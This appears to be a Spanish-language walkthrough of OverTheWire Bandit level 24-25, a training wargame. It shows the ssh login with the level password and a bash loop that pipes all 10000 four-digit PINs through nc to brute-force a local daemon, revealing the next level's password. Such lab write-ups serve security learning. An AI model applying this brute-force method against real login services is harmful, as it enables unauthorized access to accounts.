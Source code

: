 # Level 24-25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time
## Datos de Acceso
ssh bandit24@bandit.labs.overthewire.org -p 2220
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Solución
``` bash
C:\WINDOWS\system32>ssh bandit24@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _
                        | |__   __ _ _ __   __| (_) |_
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_
                        |_.__/ \__,_|_| |_|\__,_|_|\__|


                      This is an OverTheWire game server.
            More information on http://www.overthewire.org/wargames

bandit24@bandit.labs.overthewire.org's password:
bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
bandit24@bandit:~$  for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```
## Notas Adicionales

## Referencias


